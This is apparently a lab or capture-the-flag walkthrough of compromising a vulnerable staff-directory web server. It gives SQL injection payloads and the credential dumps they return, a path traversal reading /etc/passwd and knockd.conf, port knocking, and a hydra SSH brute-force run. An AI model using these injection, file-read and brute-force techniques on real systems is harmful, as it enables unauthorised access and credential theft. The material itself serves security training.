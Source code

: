 <details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 13:42 +08
Nmap scan report for 10.0.88.33
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=80%CT=1%CU=30953%PV=Y%DS=2%DC=T%G=Y%TM=63956D
OS:DE%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)OPS(O1=M5B4S
OS:T11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M
OS:5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)T1(R
OS:=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops

TRACEROUTE (using port 199/tcp)
HOP RTT     ADDRESS
1   0.89 ms 192.168.17.1
2   1.54 ms 10.0.88.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.65 seconds
```

</details>

# 2. SQL Injection

URL: `http://<ip-address>/search.php`

<details>
  <summary><h2>1. Identify query vulnerability</h2></summary>

Legitimate input `tom`:

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com
```

</details>

<details>
  <summary><h2>2.Identify injection vector</h2></summary>

Testing `tom'` → `0 results`

Testing `tom' #` → same results as legitimate input → SQL query is susceptible to injection

</details>

<details>
  <summary><h2>3. Identify range</h2></summary>

Query: `tom' ORDER BY 7 #` → `0 results`

`ORDER BY` works until `6` and fails at `7` → data ramge is 6 columns

</details>

<details>
  <summary><h2>4. Identify data display positions</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,5,6 #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: 5
Email: 6
```

</details>

<details>
  <summary><h2>5. Retrieve database/version information</h2></summary>

Query: `tom' UNION SELECT 1,2,3,DATABASE(),VERSION(),TABLE_SCHEMA FROM information_schema.TABLES #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: information_schema

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: Staff

ID: 1
Name: 2 3
Position: Staff
Phone No: 10.3.17-MariaDB-0+deb10u1
Email: users
```

Found 2 databases: `Staff` and `users`

</details>

<details>
  <summary><h2>6. Enumerate tables (from <code>Staff</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: StaffDetails

ID: 1
Name: 2 3
Position: 4
Phone No: Staff
Email: Users
```

Found 2 tables: `StaffDetails` and `Users`

</details>

<details>
  <summary><h2>7. Enumerate columns (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='Staff' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: UserID

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Username

ID: 1
Name: 2 3
Position: 4
Phone No: Users
Email: Password
```

</details>

<details>
  <summary><h2>8. Retrieve data (from <code>Staff.Users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,UserID,Username,Password FROM Users #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 1
Phone No: admin
Email: 856f5de590ef37314e7c3bdf6f8a66dc
```

</details>

<details>
  <summary><h2>6-Again. Enumerate tables (from <code>users</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='users' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: users
Email: UserDetails
```

</details>

<details>
  <summary><h2>7-Again. Enumerate columns (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT 1,2,3,4,TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails' #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: id

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: firstname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: lastname

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: username

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: password

ID: 1
Name: 2 3
Position: 4
Phone No: UserDetails
Email: reg_date
```

</details>

<details>
  <summary><h2>8-Again. Retrieve data (from <code>users.UserDetails</code>)</h2></summary>

Query: `tom' UNION SELECT id,firstname,lastname,username,password,reg_date FROM users.UserDetails #`

```console
ID: 5
Name: Tom Cat
Position: Driver
Phone No: 802438797
Email: tomc@example.com

ID: 1
Name: Mary Moe
Position: marym
Phone No: 3kfs86sfd
Email: 2019-12-29 16:58:26

ID: 2
Name: Julie Dooley
Position: julied
Phone No: 468sfdfsd2
Email: 2019-12-29 16:58:26

ID: 3
Name: Fred Flintstone
Position: fredf
Phone No: 4sfd87sfd1
Email: 2019-12-29 16:58:26

ID: 4
Name: Barney Rubble
Position: barneyr
Phone No: RocksOff
Email: 2019-12-29 16:58:26

ID: 5
Name: Tom Cat
Position: tomc
Phone No: TC&TheBoyz
Email: 2019-12-29 16:58:26

ID: 6
Name: Jerry Mouse
Position: jerrym
Phone No: B8m#48sd
Email: 2019-12-29 16:58:26

ID: 7
Name: Wilma Flintstone
Position: wilmaf
Phone No: Pebbles
Email: 2019-12-29 16:58:26

ID: 8
Name: Betty Rubble
Position: bettyr
Phone No: BamBam01
Email: 2019-12-29 16:58:26

ID: 9
Name: Chandler Bing
Position: chandlerb
Phone No: UrAG0D!
Email: 2019-12-29 16:58:26

ID: 10
Name: Joey Tribbiani
Position: joeyt
Phone No: Passw0rd
Email: 2019-12-29 16:58:26

ID: 11
Name: Rachel Green
Position: rachelg
Phone No: yN72#dsd
Email: 2019-12-29 16:58:26

ID: 12
Name: Ross Geller
Position: rossg
Phone No: ILoveRachel
Email: 2019-12-29 16:58:26

ID: 13
Name: Monica Geller
Position: monicag
Phone No: 3248dsds7s
Email: 2019-12-29 16:58:26

ID: 14
Name: Phoebe Buffay
Position: phoebeb
Phone No: smellycats
Email: 2019-12-29 16:58:26

ID: 15
Name: Scooter McScoots
Position: scoots
Phone No: YR3BVxxxw87
Email: 2019-12-29 16:58:26

ID: 16
Name: Donald Trump
Position: janitor
Phone No: Ilovepeepee
Email: 2019-12-29 16:58:26

ID: 17
Name: Scott Morrison
Position: janitor2
Phone No: Hawaii-Five-0
Email: 2019-12-29 16:58:28
```

</details>

# 3. Getting a login to `/manage.php`

A credential was retrieved from the from `Staff.Users` table

Username: `admin`

Password: `856f5de590ef37314e7c3bdf6f8a66dc`

Attempts to crack the password hash fails because the password doesn't match even the `rockyou` wordlist

☝️ hashcat is not always the answer for cracking hashes

Thankfully, md5 is easily reversible, Googling returns several online md5 hash reversers

Trying the one at <https://md5.gromweb.com/> reveals that the password is: `transorbital1`

Logging in with the credentials reveals a curious `File does not exist` error at the page footer:

![image](https://user-images.githubusercontent.com/90442032/206894411-31c7f1ce-c8f4-4528-8806-bc28ef262255.png)

This suggests that the page is susceptible to some form of file inclusion

# 4. Finding the file inclusion vulnerability

Without knowing where the DocumentRoot of the target machine is at, the next step is to identify the path traversal for the file inclusion

Since this is a linux box, the `/etc/passwd` file should exist

`../` can be appended to the URL until the `/etc/passwd` file is returned

The path is ultimately found at: `http://<ip-address>/manage.php?file=../../../../etc/passwd`

![image](https://user-images.githubusercontent.com/90442032/207045621-c684edb5-f57e-45ef-9517-0bfb614c1bd6.png)

☝️ Perform repetitive tasks by capturing the request in **Burp Suite** and **Send to Repeater **

# 5. Finding the knockd.conf

Now that we gained the ability to read files on the target, the next question is what to read?

The OSCP official guide points towards [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) method to get code execution capabilities, but this doesn't seem to work here

Taking a step back, we have a list of usernames and passwords from the SQL injection that correlates to the usernames in `/etc/passwd`

But the SSH port is `filtered` → this points towarods the existence of a firewall rule that block this port

But every server needs a method of administration, how would administration be done if SSH is blocked? → this points towarods the existence of [port-knock server](https://manpages.debian.org/bullseye/knockd/knockd.1.en.html)

Let's check for the default knockd configuration file at `/etc/knockd.conf`

![image](https://user-images.githubusercontent.com/90442032/207047786-a7bb3104-1d3a-4140-9a2b-5ba0bf41c227.png)

Bingo! The port knock sequence is `7469 8475 9842`

# 6. Looking for SSH login

Combined use of `knock` and `hydra` found 3 functional logins to SSH

```console
┌──(root㉿kali)-[~]
└─# knock 10.0.88.33 7469 8475 9842

┌──(root㉿kali)-[~]
└─# hydra -L users.txt -P passwords.txt ssh://10.0.88.33 -V -t 10
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-12 20:14:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 289 login tries (l:17/p:17), ~29 tries per task
[DATA] attacking ssh://10.0.88.33:22/
⋮
[22][ssh] host: 10.0.88.33   login: chandlerb   password: UrAG0D!
⋮
[22][ssh] host: 10.0.88.33   login: joeyt   password: Passw0rd
⋮
[22][ssh] host: 10.0.88.33   login: janitor   password: Ilovepeepee
⋮
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-12 20:15:43
```

